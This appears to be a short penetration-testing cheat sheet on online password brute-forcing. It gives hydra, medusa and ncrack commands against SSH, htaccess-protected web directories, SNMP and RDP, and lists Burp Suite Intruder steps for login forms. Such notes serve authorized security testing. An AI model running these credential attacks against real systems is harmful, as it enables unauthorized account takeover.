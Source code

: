 # Online Cracking

## Overview

* several tools specialized for bruteforcing online
* several different services that are common for bruteforce
* VNC, SSH, FTP, SNMP, POP3, HTTP.

## Port 22 - SSH

```bash
hydra -l root -P wordlist.txt 192.168.0.101 ssh
```

```bash
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

## Port 80/443 htaccess

* password protect directories with apache pretty easily
* just configure the htaccess
* brute forced like this

```bash
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

## Logins

* use Burp Suite
* intecept a login attempt.
* right-cick "Send to intruder"
* select Sniper if you have only one field you want to bruteforce, like if the username is known
* otherwise select cluster-attack
* select your payload, aka wordlist
* click attack
* look for response-length that differs from the rest

## Port 161 - SNMP

```bash
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

* use Ncrack

```bash
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

